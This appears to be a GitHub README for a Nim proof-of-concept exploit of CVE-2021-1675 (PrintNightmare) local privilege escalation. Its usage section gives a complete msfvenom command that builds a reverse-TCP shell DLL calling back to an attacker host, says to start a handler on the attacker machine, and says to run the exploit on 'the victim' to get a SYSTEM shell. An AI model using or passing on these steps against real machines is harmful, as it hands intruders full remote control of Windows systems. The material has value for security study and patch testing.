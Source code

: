 # CVE-2021-1675 LPE PoC

not my exploit! just wanted to play around with the `winim` library in nim.

### Usage

Generate DLL payload with `msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.8.237 LPORT=4444 -f dll > msfvenom.dll`, then start the handler on your attacker.

On the victim run `.\nimnightmare.exe <ABSOLUTE_PATH_TO_DLL>` and get a shell as SYSTEM.

![](./img.png)